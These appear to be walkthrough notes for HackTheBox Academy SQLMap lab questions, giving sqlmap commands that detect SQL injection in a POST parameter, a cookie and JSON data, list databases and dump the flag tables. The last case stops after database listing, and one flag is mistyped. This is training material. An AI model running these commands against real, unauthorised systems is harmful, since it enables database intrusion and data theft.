 >[Questions SQLMAP](https://academy.hackthebox.com/module/58/section/517)  
  
>What's the contents of table `flag2` ? (Case #2) 
>Detect and exploit SQLi vulnerability in POST parameter `id`

```
sqlmap -r case2.req --batch -p 'id' --flush-session --level=5 --risk=3
```  

```
sqlmap -r case2.req --batch -p 'id' --level=5 --risk=3 --dbms MySQL --dbs
```  

```
sqlmap -r case2.req --batch -p 'id' --level=5 --risk=3 --dbms MySQL -D testdb -T flag2 --dump
```  

>What's the contents of table flag3? (Case #3)  
>Detect and exploit SQLi vulnerability in Cookie value `id=1`

```
sqlmap -r case3.req --batch -p 'id' --cookie="id=1" --level=5 --risk=3 --flush-session
```

```
sqlmap -r case3.req --batch -p 'id' --cookie="id=1" --level=5 --risk=3 --dbms MySQL --dbs
```  

```
sqlmap -r case3.req --batch -p 'id' --cookie="id=1" --level=5 --risk=3 --dbms MySQL -D testdb -T flag3 --dump
```  

>What's the contents of table flag4? (Case #4)
>Detect and exploit SQLi vulnerability in JSON data {"id": 1}

![sqlmap-json](/images/sqlmap-json.png)  

```
sqlmap -r case4.req --batch -p 'id' --level=5 --risk=3 --flush-session
```

```
sqlmap -r case4.req --batch -p 'id' --level=5 --risk=3 -dbms MySQL --dbs
```  
